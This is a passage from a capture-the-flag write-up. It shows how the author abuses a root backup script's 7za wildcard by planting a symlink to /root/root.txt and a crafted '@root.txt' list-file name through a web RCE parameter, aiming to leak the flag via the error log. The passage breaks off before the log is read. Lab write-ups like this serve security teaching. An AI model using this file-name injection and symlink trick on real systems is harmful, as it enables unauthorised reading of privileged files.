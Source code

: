 #### 	It's using the wildcard asterisk (`*`) to get all files. This means that if we can write to `/var/www/html/uploads` our file will be included in the command. If we can create a malicious file name then we can somehow manipulate the `7za` command. 
#### It's also using this option : `-snl`, I checked the manual page for `7za` :
```
       -snl   Store symbolic links as links
```
#### Note that we can't unzip the created backups, so even if we created a symlink to `root.txt` in `/var/www/html/uploads` we won't be able to read it because the archive is password protected. The only way to actually get anything is through the error log, we need to cause an error that somehow leaks the flag.
#### After searching for some time I found [this page](https://sevenzip.osdn.jp/chm/cmdline/syntax.htm) which talks about a feature in `7z` called list files. I thought if I created 2 files, `root.txt` and `@root.txt`, `root.txt` is a `symlink` to `/root/root.txt`, when the command is executed and gets to `@root.txt` it will treat that as a list file option then it will search for `root.txt` to use it as a list file. However that file isn't a real list file (that may cause an error), also it's a `symlink` to `/root/root.txt`. 
#### I went to `/var/www/html/uploads` and I didn't even have read access.
```
[ldapuser@ctf backup]$ cd /var/www/html/uploads/
[ldapuser@ctf uploads]$ ls -al
ls: cannot open directory .: Permission denied
[ldapuser@ctf uploads]$ 
```
#### so I went back to the `RCE` requests in burp and tried as `apache`.
#### I created a `symlink` to `/root/root.txt` as `root.txt` :
```
inputCmd=ln -s /root/root.txt uploads/root.txt&inputOTP=91913130
```
#### Then I created an empty file and called it `@root.txt` :
```
inputCmd=touch uploads/@root.txt&inputOTP=91913130
```
#### Let's check the directory listing now :
```
inputCmd=ls -la uploads&inputOTP=91913130

total 0
drwxr-x--x. 2 apache apache  39 Jul 20 01:12 .
drwxr-xr-x. 6 root   root   176 Oct 23  2018 ..
-rw-r--r--. 1 apache apache   0 Jul 20 01:12 @root.txt
lrwxrwxrwx. 1 apache apache  14 Jul 20 01:12 root.txt -> /root/root.txt
```
#### Everything is fine let's check the error log :